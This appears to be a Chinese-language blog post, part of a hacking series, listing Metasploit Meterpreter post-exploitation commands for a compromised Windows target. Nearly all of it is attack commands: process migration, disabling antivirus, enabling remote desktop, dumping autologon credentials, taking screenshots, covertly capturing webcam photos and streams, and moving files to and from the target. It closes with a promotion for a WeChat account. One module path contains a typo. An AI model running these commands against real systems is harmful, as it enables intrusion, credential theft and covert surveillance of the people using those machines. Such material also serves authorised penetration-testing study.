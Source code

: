```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit-Meterpreter-Shell信息收集相关的命令
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit-Meterpreter-Shell信息收集相关的命令
lock: need
---
```


# Metasploit-Meterpreter-Shell信息收集相关的命令

PS：以下所有的命令都是在Metasploit-Meterpreter Shell下执行的。

## 进程迁移 

1、获取目标机正在运行的进程

```
ps
```

2.查看Meterpreter Shell的进程号

```
getpid
```

3.将Meterpreter Shell进程绑定到其他进程中

```
migrate 要绑定到的进程id号
```

4.系统自动寻找合适的进程迁移

```
run post/windows/manage/migrate
```

## 系统命令

1.查看目标机的系统信息

```
sysinfo
```

2.查看目标机是否运行在虚拟机上

```
run post/windows/gather/checkvm
```

3.查看目标机最近的运行时间

```
idletime
```

4.查看目标机完整的网路设置

```
route
```

5.将当前会话放到后台

```
background
```

6.查看目标机器上已经渗透成功的用户名

```
getuid
```

7.关闭目标机杀毒软件

```
run post/windows/manage/killav
```

8.启动目标机的远程桌面协议

```
run post/windows/manage/enable_rdp
```

9.查看目标机的本地子网情况

```
run post/windows/manage/autoroute
```

10.列举当前有多少用户登录了目标机

```
run post/windows/gather/enum_logged_on_users
```

11.列举安装在目标机上的应用程序

```
run post/windows/gather/enum_applications
```

12.抓取目标机自动登录的用户名和密码

```
run post/windows/gather/credentials/windows)autologin
```

13.抓取目标机屏幕截图

```
load espia
screengrab
```

或者

```
screenshot
```

14.查看目标机有没有摄像头

```
webcam_list
```

15.打开目标机摄像头拍照

```
webcam_snap
```

此命令会将目标机摄像头拍照的图片，以图片的形式保存在攻击机的/root目录下

16.开启摄像头直播模式

```
webcam_stream
```

此命令会将目标机摄像头录制的视频，以html文件的形式保存在攻击机的/root目录下

17.进行目标机shell

```
shell
```

18.停止Meterpreter会话或者停止Shell会话返回Meterpreter

```
exit
```

## 文件系统命令

1.查看当前处于目标机的哪个目录

```
pwd或getwd
```

2.查看当前处于本地的哪个目录

```
getlwd
```

3.列举目标机当前目录中的所有文件

```
ls
```

4.切换目标机目录

```
cd
```

5.搜索C盘所有以.txt为扩展名的文件

```
search -f *.txt -d c:\
```

其中，-f参数用于执行搜索文件模式，-d参数用于指定在哪个目录下进行搜索

6.下载目标机C盘的test.txt文件到攻击机/root下

```
download c:\test.txt /root
```

7.上传攻击机root目录下的test.txt文件到目标机C盘下

```
upload /root/test.txt c:\
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)